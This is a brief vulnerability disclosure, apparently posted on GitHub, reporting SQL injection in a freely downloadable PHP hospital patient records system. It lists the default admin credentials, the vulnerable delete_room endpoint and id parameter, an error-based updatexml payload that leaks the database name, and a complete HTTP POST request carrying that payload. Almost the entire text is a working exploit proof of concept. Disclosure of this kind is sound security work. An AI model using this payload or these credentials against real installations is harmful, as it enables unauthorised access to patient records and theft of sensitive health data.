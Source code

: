 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/classes/Master.php?f=delete_room

Vulnerability location: /hprms/classes/Master.php?f=delete_room, id

Current database name: hprms_db ,length is 8

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /hprms/classes/Master.php?f=delete_room HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171824524-d671fafa-a3ad-4ae8-812c-f23f1145bcfe.png)
